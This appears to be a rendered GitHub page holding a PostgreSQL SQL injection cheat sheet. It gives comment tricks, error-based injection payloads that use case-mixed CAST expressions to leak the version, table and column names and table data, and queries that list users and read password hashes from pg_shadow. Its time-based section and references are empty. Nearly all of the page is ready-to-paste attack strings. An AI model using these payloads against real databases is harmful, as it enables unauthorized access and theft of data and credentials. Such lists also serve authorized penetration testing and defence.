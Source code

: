 # PostgresSQL

## PostgreSQL Comments
```
--
/**/ 
--------------------------------------------------
SELECT 1; –comment
SELECT /*comment*/1;
```

## PostgreSQL Error Based - Basic
```
,cAsT(chr(126)||vErSiOn()||chr(126)+aS+nUmeRiC)
,cAsT(chr(126)||(sEleCt+table_name+fRoM+information_schema.tables+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+column_name+fRoM+information_schema.columns+wHerE+table_name=data_column+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)--
,cAsT(chr(126)||(sEleCt+data_column+fRoM+data_table+lImIt+1+offset+data_offset)||chr(126)+as+nUmeRiC)
```
## PostgreSQL Time Based


# -------------------------------------------------------------------------------

Version	
``` 
SELECT version()
```
Comments	
```
SELECT 1; –comment
SELECT /*comment*/1;
```
Current User	
```
SELECT user;
SELECT current_user;
SELECT session_user;
SELECT usename FROM pg_user;
SELECT getpgusername();
```
List Users	
```
SELECT usename FROM pg_user
```
List Password Hashes
```
SELECT usename, passwd FROM pg_shadow — priv
```

## References:
